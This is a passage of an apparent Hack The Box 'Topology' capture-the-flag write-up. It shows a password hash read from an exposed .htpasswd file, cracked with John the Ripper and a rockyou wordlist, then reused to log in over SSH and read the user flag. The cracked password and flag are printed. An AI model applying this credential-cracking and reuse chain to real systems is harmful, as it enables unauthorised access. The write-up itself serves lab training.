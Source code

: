 Accessing `/var/www/dev/.htpasswd` reveals a password hash:
![htpasswd](./images/htpasswd.png)

This hash can easily be cracked:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ cat htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt htpasswd       
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:06 DONE (2023-11-04 11:24) 0.1501g/s 149506p/s 149506c/s 149506C/s calebhart..caitlyn10
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ 
```

If we log in on the website we just find a portfolio. Nothing interesting here.

## User flag
But if we use the credentials to login via SSH we can get the user flag:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ ls -al 
total 32
drwxr-xr-x 4 vdaisley vdaisley 4096 Jun 12 10:38 .
drwxr-xr-x 3 root     root     4096 May 19 13:04 ..
lrwxrwxrwx 1 root     root        9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 vdaisley vdaisley  220 Jan 17  2023 .bash_logout
-rw-r--r-- 1 vdaisley vdaisley 3771 Jan 17  2023 .bashrc
drwx------ 2 vdaisley vdaisley 4096 May 19 13:04 .cache
drwx------ 3 vdaisley vdaisley 4096 May 19 13:04 .config
-rw-r--r-- 1 vdaisley vdaisley  807 Jan 17  2023 .profile
-rw-r----- 1 root     vdaisley   33 Nov  4 11:31 user.txt
vdaisley@topology:~$ cat user.txt 
4acd9a7544169922103fbe12b94959ab
```